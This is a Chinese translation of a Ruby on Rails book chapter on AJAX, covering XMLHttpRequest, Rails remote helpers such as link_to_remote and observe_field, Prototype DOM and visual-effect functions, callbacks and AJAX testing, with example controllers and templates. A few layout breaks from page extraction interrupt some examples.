

图 20.1：AJAX——用于 Web 应用程序的页面内部服务器请求

这在实践中意味着什么？它允许你执行在使用 GMail、Google Maps 或 Google Suggest 时可能看到的那些操作。这些网页的工作方式就像桌面应用程序一样。这怎么可能呢？通常服务器发送一个页面，你点击某个东西发送一个请求给服务器，然后服务器发送另一个页面。

使用 AJAX，情况改变了。你可以从你的 Web 客户端向服务器发出即时请求，服务器可以用各种有用的东西来响应：

- HTML 片段；
- 由客户端执行的脚本；
- 任意数据。

通过从服务器返回*HTML 片段*，AJAX 允许我们替换或添加到现有页面元素中。你可以替换一个段落或这里的产品图像，或者在那里向表格添加一些行。这减少了带宽使用，并使你的页面感觉更快。

通过执行服务器返回的*脚本*（即 JavaScript），你可以完全改变当前显示的 HTML 页面的外观、内容和行为。

最后，你可以返回*任意数据*，由客户端上的 JavaScript 处理。²

### XMLHttpRequest

AJAX 使用了一个最初在 Microsoft 的 Internet Explorer 中实现，但后来已扩展到所有主要 Web 浏览器（包括基于 Gecko 的如 Firefox 和 Mozilla，以及其他如 Opera 和 Apple 的 Safari）的功能。这个功能是一个名为`XMLHttpRequest`的 JavaScript 对象。

这个对象允许你从客户端构造 HTTP 调用。它还允许你访问和处理服务器响应的数据。

注意`XMLHttpRequest`名称中的*XML*部分是历史原因造成的（所以即使是新东西也有历史！）——你完全不必使用 XML。现在暂时忘掉 XML 的部分，把它看作它本质的东西——一个 HTTP 请求的包装器。

### AJAX 中的 A

AJAX 调用是异步的，或者说是*非阻塞*的³。在你向服务器发送请求之后，主浏览器事件循环将开始监听你的`XMLHttpRequest`实例引发的任何事件。任何其他浏览器事件，如用户点击链接，都将继续工作。

这意味着从服务器返回到客户端的 AJAX 数据只是你页面上的另一个事件。在请求发送和数据返回之间，任何事情都可能发生。随着你的应用程序变得更加复杂，请记住这一点。

> ² 人们期望*XML*部分是 AJAX 发挥作用的地方——服务器应该向客户端发送 XML 消息。但这并不是必须的。你可以发送回 JavaScript 代码片段、纯文本，甚至是 YAML。
>
> ³ 事实上，你也可以进行同步调用，但这是一个非常、非常糟糕的主意。在请求被处理之前，你的浏览器将停止响应用户操作——这很可能导致用户认为浏览器崩溃了。

### XMLHttpRequest 与 `<iframe>`

那么，你可能会问，这有什么大惊小怪的？我多年来一直用`<iframe>`做这些事！

虽然确实可以实现类似于`XMLHttpRequest`的功能，但`iframe`远不如 AJAX 灵活和简洁。与`<iframe>`方法不同，使用 AJAX：

- 很容易进行 GET、POST 和其他 HTTP 请求类型；
- DOM 不会以任何方式被修改；
- 你拥有强大的回调钩子；
- 有一个清晰的 API，而且
- 你可以自定义 HTTP 头。

考虑到所有这些，很明显`XMLHttpRequest`提供了一个比`iframe`更清晰、更强大的编程模型。

## 20.2 Rails 之道

Rails 内置了对 AJAX 调用的支持，这使得将你的应用程序纳入 Web 2.0 轨道变得非常容易。

首先，它内置了`prototype`、`effects`、`dragdrop`和`controls` JavaScript 库。这些库以优雅、面向对象的方式巧妙地封装了各种有用的 AJAX 和 DOM 操作功能。（`prototype`）

第二个是`JavascriptHelper`，一个模块，它定义了我们将在本章其余部分探讨的方法。它将 JavaScript 访问封装在纯净的 Ruby 代码中，因此在使用 AJAX 时你不必切换到另一种语言。这才是完全的集成。（`JavascriptHelper`）

要使用`JavascriptHelper`定义的任何函数，你首先必须在应用程序中包含`prototype.js`文件。通过在你的`.rhtml`页面的`<head>`部分调用这个来实现：

```erb
<%= javascript_include_tag "prototype" %>
```

对于本章中的代码，我们已经将`javascript_include_tag`调用添加到我们的总体`application.rhtml`布局文件中，使该库对我们的所有示例可用。

⁴ http://prototype.conio.net

### link_to_remote

从`.rhtml`模板发起一个基本 AJAX 调用的语法可以非常简单：

```ruby
<%= link_to_remote("Do the Ajax thing",
                  :update => 'mydiv',
                  :url => { :action => :say_hello }) %>

<div id="mydiv">This text will be changed</div>
```

`link_to_remote()`方法的这种基本形式接受三个参数：

- 链接的文本；
- 页面上要更新元素的`id=`属性；
- 以`url_for()`格式指定的操作 URL。

当用户点击该链接时，操作（本例中是`say_hello`）将在服务器端被调用。该操作渲染的任何内容都将用于替换当前页面上`mydiv`元素的内容。

生成响应的视图不应使用任何 Rails 布局包装器（因为你只更新了 HTML 页面的 一部分）。你可以通过调用`render()`并将`:layout`选项设置为`false`，或者在操作中指定不使用布局来禁用布局（更多内容请参见第 19.9 节“定位布局文件”，第 433 页）。

那么，让我们定义一个操作：

```ruby
def say_hello
  render(:layout => false)
end
```

然后定义对应的`say_hello.rhtml`视图：

```erb
<em>Hello from Ajax!</em> (Session ID is <%= session.session_id %>)
```

试一试。`id="mydiv"`的`<div>`元素中的文本 "This text will be changed" 将被更改为类似这样的内容（见下页图 20.2）：



图 20.2：通过 AJAX 调用操作前后

Hello from Ajax! (`<some string>`)

就是这么简单。包含会话 ID 是为了再展示一件事——cookie 处理。会话信息由底层的`XMLHttpRequest`透明地处理。无论操作是通过 AJAX 调用还是常规方式调用，你总能获取到正确用户的会话。

### 幕后机制

让我们看看在`link_to_remote`示例中发生了什么。首先，快速看一下`link_to_remote()`生成的 HTML 代码：

```html
<a href="#" onclick="new Ajax.Updater('mydiv',
'/example/say_hello', {asynchronous:true}); return false;">
    Do the AJAX thing
</a>
```

`link_to_remote()`生成一个 HTML `<a>`标签，当被点击时，会创建一个新的`Ajax.Updater`实例（定义在 Prototype 库中）。

这个实例在内部调用`XMLHttpRequest`，而后者继而向作为第二个参数给出的 URL 发起一个 HTTP POST 请求。⁵ 这个过程如图 20.3（下页）所示。

⁵ 出于安全原因，你只能安全地调用与包含`XMLHttpRequest`调用的页面相同服务器/端口上的 URL。



图 20.3：XMLHttpRequest 连接浏览器和服务器

让我们看看服务器端发生了什么：

```text
127.0.0.1 - - [21/Apr/2005:19:55:26] "POST /example/say_hello HTTP/1.1" 200 51
```

Web 服务器（本例中是 WEBrick）收到了一个调用`/example/say_hello`的 HTTP POST 请求。从服务器的角度看，这就像一个普通、常规的 HTTP POST 请求。这并不奇怪，因为它本来就是。

然后，服务器将被调用操作（本例中是`say_hello()`）的输出返回给由`link_to_remote()`在幕后创建的`XMLHttpRequest`对象。`Ajax.Updater`接管，并用从`XMLHttpRequest`对象返回的数据替换作为第一个参数给出的元素（本例中是`mydiv`）的内容。浏览器更新页面以反映新内容。就用户而言，页面只是发生了变化。

### form_remote_tag()

你可以轻松地将任何 Rails 表单改为使用 AJAX，只需将`form_tag()`替换为`form_remote_tag()`。

此方法会自动序列化所有表单元素并使用`XMLHttpRequest`将它们发送到服务器。无需对你的操作进行更改——它就像平常一样接收数据。

让我们来做一个游戏。目标是完成一个简单的短语：游戏显示 "Ruby on ..."，用户需要提供缺失的单词。以下是控制器。


```ruby
class GuesswhatController < ApplicationController
  def index
  end

  def guess
    @guess = params[:guess] || ''
    if @guess.strip.match /rails$/i
      render(:text => "You're right!")
    else
      render(:partial => 'form')
    end
  end
end
```

> 有一个例外：你不能在`form_remote_tag()`中使用文件上传字段，因为 JavaScript 无法获取文件内容。这是 JavaScript 模型强加的一个安全（和性能）约束。

`index.rhtml`模板文件如下所示。

```erb
<h3>Guess what!</h3>

<div id="update_div" style="background-color:#eee;">
  <%= render(:partial => 'form') %>
</div>
```

最后，这个将让你成名致富的时尚新游戏的主体部分是`_form.rhtml`局部模板。

```erb
<% if @guess %>
  <p>It seems '<%=h @guess %>' is hardly the correct answer</p>
<% end %>

<%= form_remote_tag(:update => "update_div",
                   :url     => { :action => :guess } ) %>

  <label for="guess">Ruby on ..…?</label>

  <%= text_field_tag :guess %>

  <%= submit_tag "Post form with AJAX" %>

<%= end_form_tag %>
```

试一试——要找到答案并不太难，如下页图 20.4 所示。

`form_remote_tag()`是向你的应用程序添加动态内联表单（例如投票或聊天）的好方法，而无需更改嵌入页面的任何内容。



局部模板有助于你遵循 DRY 原则——初次显示表单时使用局部模板，在你的 AJAX 操作中也使用它。无需更改。

### 观察者

观察者让你可以在用户更改表单或特定表单字段中的数据时调用 AJAX 操作。你可以利用这一点来构建实时搜索框。

```erb
<% label for="search">Search term:</label>
<%= text_field_tag :search %>

<%= observe_field(:search,
                 :frequency => 0.5,
                 :update     => :results,
                 :url        => { :action => :search }) %>

<div id="results"></div>
```



观察者等待给定表单字段的更改，每隔`:frequency`秒检查一次。默认情况下，`observe_field`使用文本字段的当前值作为操作的原始 POST 数据。你可以在控制器中使用`request.raw_post`访问此数据。

设置好观察者后，让我们来实现搜索操作。我们希望在一个单词数组列表上实现搜索，并在结果中很好地高亮显示搜索词。

```ruby
WORDLIST = %w(Rails is a full-stack, open-source web framework in Ruby for writing real-world applications with joy and less code than most frameworks spend doing XML sit-ups)

def search
  @phrase  = request.raw_post || request.query_string
  matcher  = Regexp.new(@phrase)
  @results = WORDLIST.find_all { |word| word =~ matcher }
  render(:layout => false)
end
```

视图`search.rhtml`如下所示。

```erb
<% if @results.empty? %>
  '<%=h @phrase %>' not found!
<% else %>
  '<%=h @phrase %>' found in
  <%= highlight(@results.join(', '), @phrase) %>
<% end %>
```

将浏览器指向观察者操作，你将获得一个具有实时搜索功能的良好文本框（参见前页图 20.5）。注意在此示例中，搜索支持正则表达式。

`@phrase = request.raw_post || request.query_string`这一行允许你通过直接在浏览器中输入类似`/controller/search?ruby`的 URL 来测试搜索——此时不会存在原始 POST 数据，因此操作将改用查询字符串。

由观察者调用的操作不应过于复杂。根据你设置的频率和用户输入的速度，它可能会被非常频繁地调用。换句话说，避免繁重的数据库查询或其他昂贵的操作。你的用户也会因此感谢你，因为他/她将体验到更灵敏的界面。

### 定期更新

第三个辅助函数`periodically_call_remote()`在你希望通过定期通过 AJAX 调用服务器来保持页面部分内容刷新时非常有用。作为示例，我们将显示一个来自服务器的进程列表，每隔几秒钟更新一次。此示例使用`ps`命令，因此它相当特定于 Unix。将命令放在反引号中会将其输出作为字符串返回。以下是控制器。

```ruby
def periodic
  # No action...
end

### Return a process listing (Unix specific code)
def ps
  render(:text => "<pre>" + CGI::escapeHTML(`ps -a`) + "</pre>")
end
```

这是`periodic.rhtml`模板。它包含了对`periodically_call_remote()`的调用。


```html
<h3>Server processes:</h3>
<div id="process-list" style="background-color:#eee;">
</div>
<%= periodically_call_remote(:update => 'process-list',
                          :url => { :action => :ps },
                          :frequency => 2 )%>
```

如果你额外付费购买了本书的嵌入式 Web 服务器版本，你将看到图 20.6 每隔两秒更新一次列表（你应该能看到`"ruby script/server"`进程的`"TIME"`列随每次迭代而增加！）。如果你只购买了纸质版或 PDF 版，就只能相信我们的描述了。

## 20.3 用户界面，再探

传统上，Web 应用程序提供的交互性用户界面不如传统桌面应用程序丰富。直到现在，它们其实也不需要更多交互性。随着 Web 2.0 的兴起，这种情况必须改变，因为 AJAX 让我们获得了对网页上发生事件的大量控制权。

Prototype 库克服了这个问题，帮助你的应用程序以一种直观的方式与用户沟通。而且，这也很有趣！

除了支持进行 AJAX 调用外，Prototype 库还提供了大量有用的对象，让我们的工作更轻松，同时改善用户的体验。

Prototype 库提供的功能分为以下几组：

- AJAX 调用（我们已经讨论过）
- 文档对象模型操作
- 视觉效果

### 文档对象模型操作

JavaScript 对文档对象模型操作的原生支持笨重且繁琐，因此 Prototype 为许多常用操作提供了便捷的快捷方式。这些函数都是 JavaScript，旨在从发送到浏览器的页面内调用。

#### `$('#id')`

向`$()`方法传递一个字符串，它返回具有给定 id 的 DOM 元素。否则，它返回其参数。（此行为意味着你可以传递元素的`id=`属性或元素本身，并获得一个元素返回。）

```javascript
$('mydiv').style.border = "1px solid red"; /* 为 mydiv 设置边框 */
```

#### `Element.toggle(element, ...)`

`Element.toggle()`切换给定元素（或多个元素）的显示状态。内部实现上，它在 CSS `display` 属性的`'inline'`和`'none'`值之间切换。

```javascript
Element.toggle('mydiv');                /* 切换 mydiv 的显示状态 */
Element.toggle('div1', 'div2', 'div3'); /* 切换 div1-div3 的显示状态 */
```

#### `Element.show(element, ...)`

`Element.show()`确保其接收作为参数的所有元素都被显示。

```javascript
Element.show('warning');         /* 显示 id 为 'warning' 的元素 */
```

#### `Element.hide(element, ...)`

与`Element.show()`相反。

#### `Element.remove(element)`

`Element.remove()`从 DOM 中完全移除一个元素。

```javascript
Element.remove('mydiv');        /* 完全擦除 mydiv */
```

### 插入方法

各种插入方法使得向现有元素添加 HTML 片段变得容易。它们在第 20.4 节“替换技术”（第 467 页）中讨论。

### 视觉效果

因为 AJAX 在后台工作，所以对用户来说是透明的。服务器可能收到一个 AJAX 请求，但用户不一定得到任何关于发生了什么的反馈。浏览器甚至不会指示页面正在加载。用户可能点击一个按钮从待办事项列表中删除一个条目，该按钮可能向服务器发送一个请求，但没有反馈，用户如何知道发生了什么？而且，通常情况下，如果他们*看不到*事情发生，普通用户只会一遍又一遍地点击该按钮。

因此，我们的工作是在浏览器没有提供反馈时提供反馈。我们需要让用户在视觉上知道正在发生事情。这是一个两步过程。首先，我们可以使用各种 DOM 操作技术对浏览器显示进行操作，以反映服务器上正在发生的事情。然而，单靠这种方法可能不够。

例如，考虑一个`link_to_remote()`调用，它从数据库中删除一条记录，然后清空显示该数据的 DOM 元素。对你的用户来说，该元素似乎瞬间就在他们的显示上消失了。在传统的桌面应用程序中，这没什么大不了的，因为用户对此行为习以为常。在 Web 应用程序中，这可能会引起问题：你的用户可能就是“不明白”。

这就是为什么有第二步。你应该使用效果来提供已进行更改的反馈。如果记录以动画的“噗”声消失或平滑淡出，你的用户会更高兴，因为他或她选择的操作确实发生了。

视觉效果支持捆绑在自己的 JavaScript 库`effects.js`中。因为它依赖于`prototype.js`，所以如果你想在你的网站上使用效果（可能通过编辑布局模板），你需要同时包含两者。

```erb
<%= javascript_include_tag "prototype", "effects" %>
```

效果有两种类型：一次性效果和可重复调用的效果。

### 一次性效果

这些效果用于向用户传达一个明确的信息：*某些东西消失了，或者某些东西已被更改或添加*。所有这些效果都接受一个参数，即你页面上的一个元素。你应该使用包含元素 id 的 JavaScript 字符串：`new Effect.Fade('id_of_an_element')`。如果你在元素的事件内部使用效果，你也可以使用`new Effect.Fade(this)`语法——这样你就不必在其他地方不需要时使用 id 属性。

#### `Effect.Appear(element)`

此效果将给定元素的不透明度从 0% 平滑地更改为 100%，使其平滑地淡入。

#### `Effect.Fade(element)`

与`Effect.Appear()`相反——元素将平滑地淡出，其 CSS `display` 属性将在结束时设置为`none`（这将使元素脱离正常的页面流）。

#### `Effect.Highlight(element)`

在元素上使用著名的*黄色淡出技术*<sup>7</sup>，使其背景从黄色平滑地淡出到白色。向用户传达某个值不仅在浏览器中而且在服务器上也已更新的好方法。

#### `Effect.Puff(element)`

创造一种元素在逐渐扩散的烟云中消失的错觉。使元素淡出，同时按比例放大。动画结束时，`display`属性将设置为`none`（参见第 20.7 页，图 20.7）。

#### `Effect.Squish(element)`

通过平滑地缩小元素使其消失。

图 20.7 中的屏幕截图是由以下模板生成的。顶部的代码是一个辅助方法，为网格中的方块设置交替样式。底部的循环创建了初始的 16 个方块。当点击*Destroy*链接时，控制器中的`destroy`动作被调用。在此示例中，控制器什么都不做，但在现实生活中，它可能会从数据库表中删除一条记录。当操作完成时，Puff 效果会在被点击的方块上被调用，然后它就消失了。

> <sup>7</sup>由 37signals 推广；参见 http://www.37signals.com/svn/archives/000558.php。



```ruby
Download e1/web2/app/views/example/effects.rhtml
<% def style_for_square(index)
    color = (index % 2).zero? ? "#444" : "#ccc"
    %{ width: 150px;  height: 120px; float: left;
       padding: 10px; color: #fff; text-align:center;
       background: #{color} }
  end
%>
<% 16.times do |i| %>
  <div id="mydiv<%= i %>" style="<%= style_for_square(i) %>">
    <div style="font-size: 5em;"><%= i %></div>
    <%= link_to_remote("Destroy",
                :complete => "new Effect.Puff('mydiv#{i}')",
                :url => { :action => :destroy, :id => i }) %>
  </div>
<% end %>
```

### 可重复调用的效果

#### `Effect.Scale(element, percent)`

此效果平滑地缩放给定元素。如果你缩放一个`<div>`，所有包含的元素必须将其宽度和高度设置为 em 单位。如果你缩放一张图像，则不需要设置宽度和高度。

## 20.4 高级技巧

本节我们将探讨一些更高级的 AJAX 技巧。

### 替换技巧

正如我们之前提到的，Prototype 库提供了一些高级的替换技巧，它们不仅仅是覆盖元素的内容。你可以通过各种`Insertion`对象来调用它们。

#### `Insertion.Top(element, content)`

在元素起始位置之后插入一个 HTML 片段。

```ruby
new Insertion.Top('mylist', '<li>Wow, I\'m the first list item!</li>');
```

#### `Insertion.Bottom(element, content)`

在元素结束位置之前立即插入一个 HTML 片段。

例如，你可以用这个方法在`<table>`元素的末尾插入新的表格行，或在`<ol>`或`<ul>`元素的末尾插入新的列表项。

```ruby
new Insertion.Bottom('mytable', '<tr><td>We\'ve a new row here!</td></tr>');
```

#### `Insertion.Before(element, content)`

在元素起始位置之前插入一个 HTML 片段。

```ruby
new Insertion.Before('mypara', '<h1>I\'m dynamic!</h1>');
```

#### `Insertion.After(element, content)`

在元素结束位置之后插入一个 HTML 片段。

```ruby
new Insertion.After('mypara', '<p>Yet another paragraph.</p>');
```


### 关于回调的更多信息

你可以对 `link_to_remote()`、`form_remote_tag()` 和 `observe_xxx` 方法使用四种 JavaScript 回调。这些回调可以自动访问一个名为 `request` 的 JavaScript 变量，它包含对应的 `XMLHttpRequest` 对象。

`:loading()`：当 `XMLHttpRequest` 开始向服务器发送数据时调用（即，当它发起调用时）。

`:loaded()`：当所有数据都已发送到服务器，且 `XMLHttpRequest` 现在等待服务器响应时调用。

`:interactive()`：当数据开始从服务器返回时触发此事件。请注意，此事件的实现因浏览器差异非常大。

`:complete()`：当来自服务器响应的所有数据都已接收，且调用完成时调用。

目前，你可能不想使用 `:loaded()` 和 `:interactive()` 回调——它们的行为可能因浏览器不同而有很大差异。`:loading()` 和 `:complete()` 将在所有受支持的浏览器中工作，并且总是只被调用一次。

`link_to_remote()` 有几个额外的参数以提供更大的灵活性。

`:confirm`

使用确认对话框，就像 `link_to()` 上的 `:confirm` 一样。

`:condition`

提供一个 JavaScript 表达式进行求值（在点击链接时）；只有当表达式返回 `true` 时才会启动远程请求。

`:before`、`:after`

在 AJAX 调用之前和/或之后立即求值一个 JavaScript 表达式。（注意，`:after` 不会等待调用返回。请改用 `:complete` 回调。）

`request` 对象持有一些有用的方法。

`request.responseText`

返回服务器返回的响应正文（作为字符串）。

`request.status`

返回服务器返回的 HTTP 状态码（即，200 表示成功，404 表示未找到）。[^8]

`request.getResponseHeader(name)`

返回服务器返回的响应中给定头部的值。

### 进度指示器

你可以使用回调来给用户反馈，表明某些操作正在进行中。

看看这个示例。

```erb
<%= text_field_tag :search %>
<%= image_tag("indicator.gif",
             :id    => 'search-indicator',
             :style => 'display:none') %>

<%= observe_field("search",
      :update   => :results,
      :url      => { :action => :search},
      :loading  => "Element.show('search-indicator')",
      :complete => "Element.hide('search-indicator')") %>
```

图片 `indicator.gif` 仅在 AJAX 调用活动时显示。为了获得最佳效果，请使用动画图片。[^9]

[^8]: 有关可能的状态码，请参阅 RFC 2616 第 10 章。该文档可在 http://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html 在线获取。

[^9]: 可以看看浏览器用于指示页面加载进度的各种动态图片。

对于 `text_field()` 的自动完成功能，指示器支持已内置。

```erb
<%= text_field(:items,
             :description,
             :remote_autocomplete => { :action => :autocomplete },
             :indicator => "/path/to/image") %>
```

### 多重更新

如果你严重依赖服务器进行客户端更新，并且需要比 `:update => 'elementid'` 构造更大的灵活性，回调可能就是答案。

诀窍是让服务器将 JavaScript 作为 AJAX 响应的一部分发送给客户端。由于这个 JavaScript 可以完全访问 DOM，它可以按照你的需要更新浏览器窗口的任何部分。为了实现这个魔法，使用 `:complete => "eval(request.responseText)"` 而不是 `:update`。你可以在视图中生成 JavaScript，然后将其传递给客户端并执行。

让我们触发一些随机的淡出效果。首先我们需要控制器。

```ruby
### app/controllers/example_controller.rb
def multiple
end

def update_many
  render(:layout => false)
end
```

这里没什么特别的。`multiple.rhtml` 模板更有趣。

```erb
### app/views/example/multiple.rhtml
<%= link_to_remote("Update many",
                  :complete => "eval(request.responseText)",
                  :url => { :action => :update_many }) %>

<hr/>

<% style = "float:left; width:100px; height:50px;" %>

<% 40.times do |i|
      background = "text-align: center; background-color:##{ ("%02x" % (i*5))*3};" %>

  <%= content_tag("div",
                 "I'm div #{i}",
                 :id => "div#{i}",
                 :style => style + background) %>
<% end %>
```

这会生成 40 个 `<div>` 元素。第二行的 `eval(request.responseText)` 代码允许我们在 `update_many.rhtml` 模板中生成 JavaScript。

```erb
### app/views/example/update_many.rhtml
<% 3.times do %>
  new Effect.Fade('div<%= rand(40) %>');
<% end %>
```

每次点击 "Update many" 时，服务器会返回三行 JavaScript，这些代码又会淡出最多三个随机的 `<div>` 元素！

要更轻松地插入任意 HTML，请使用 `escape_javascript()` 辅助函数。这确保所有 `'` 和 `"` 字符以及换行符都会被正确转义，以构建一个 JavaScript 字符串。

```ruby
new Insertion.Bottom('mytable',
  '<%= escape_javascript(render(:partial => "row")) %>');
```

如果你在视图中返回 JavaScript 供 Web 浏览器执行，你必须考虑在渲染页面时发生错误的情况。默认情况下，Rails 将返回一个 HTML 错误页面，而你在此时并不希望这样（因为会发生 JavaScript 错误）。

在本书付印之际，相关工作正在进行中，旨在为 `link_to_remote()` 和 `form_remote_tag()` 添加错误事件处理器。请查阅文档以获取最新详情。

### 动态更新列表

AJAX 的典型用途之一是更新用户浏览器上的列表。当用户添加或删除项目时，列表会发生变化，而无需刷新整个页面。让我们编写能实现此功能的代码。这是一个有用的技术，也让我们能够结合本章涵盖的许多概念。

我们的应用是（又一个）待办事项列表管理器。它显示一个简单的项目列表，并有一个用户可以添加新项目的表单。让我们从编写非 AJAX 版本开始。它使用传统的表单。

我们不费心处理数据库表，而是尝试使用一个内存中的模型类。以下是 `item.rb`，放在 `app/models` 目录下。

```ruby
### app/models/item.rb
class Item
  attr_reader :body
end
```

### 不使用 AJAX 的 Effects 实现

不使用 AJAX 的 Effects 实现起来有些棘手。虽然使用 `window.onload` 事件很有诱惑力，但你的效果只会在页面所有元素（包括图片）加载完成后才会触发。

在 HTML 中受影响元素后直接放置 `<script>` 标签是另一种选择，但这可能导致某些浏览器的渲染问题（取决于页面内容）。如果遇到这种情况，尝试将 `<script>` 标签插入到页面的最底部。

以下摘自 RHTML 页面​​的代码片段将对一个元素应用黄色淡出技术。

下载 `e1/web2/app/views/example/effectswithoutajax.rhtml`

```html
<div id="mydiv">Some content</div>
<script type="text/javascript">
    new Effect.Highlight('mydiv');
</script>
```

### 测试

测试你的 AJAX 函数和表单非常直接，因为它们与普通的 HTML 链接和表单没有真正的区别。有一个特殊规定可以模拟调用操作，就像它们由 Prototype 库生成一样。方法 `xml_http_request()`（或简称 `xhr()`）包装了常规的 `get()`、`post()`、`put()`、`delete()` 和 `head()` 方法，允许你的测试代码调用控制器操作，就像它是浏览器中运行的 JavaScript 一样。例如，一个测试可能使用以下代码来调用 `post` 控制器的 `index` 操作。

```ruby
xhr :post, :index
```

该包装器将 `request.xhr?` 的结果设置为 `true`（参见第 20.4 节，*由 AJAX 调用？*）。

如果你想为你的 Web 应用程序添加浏览器和功能测试，可以查看 Selenium。<sup>10</sup> 它让你可以直接在浏览器中检查诸如 DOM 变化等内容。对于 JavaScript 单元测试，你可能想尝试 JsUnit。<sup>11</sup>

如果你在应用程序中遇到一些意外的行为，可以查看浏览器的 JavaScript 控制台。并非所有浏览器都对此有良好的支持。一个不错的工具是 Firefox 的 Venkman<sup>12</sup> 插件，它支持高级 JavaScript 检查和调试。

### 向后兼容性

Rails 有几个特性可以帮助你的 AJAX Web 应用程序在非 AJAX 浏览器或不支持 JavaScript 的浏览器中工作。你应该在开发过程早期就决定是否需要这种支持；这可能对你的开发计划有深远的影响。

### 由 AJAX 调用？

使用 `request.xml_http_request?` 方法，或其简写形式 `request.xhr?`，来检查一个操作是否通过 Prototype 库调用。

下载 `e1/web2/app/controllers/example_controller.rb`

```ruby
def checkxhr
  if request.xhr?
    render(:text => "21st century Ajax style.", :layout => false)
  else
    render(:text => "Ye olde Web.")
  end
end
```

这是 `check.rhtml` 模板。

下载 `e1/web2/app/views/example/check.rhtml`

```erb
<%= link_to_remote('Ajax..',
                   :complete => 'alert(request.responseText)',
```

<sup>10</sup> http://selenium.thoughtworks.com/

<sup>11</sup> http://www.edwardh.com/jsunit/

<sup>12</sup> http://www.mozilla.org/projects/venkman/

### 为 AJAX 添加标准 HTML 链接

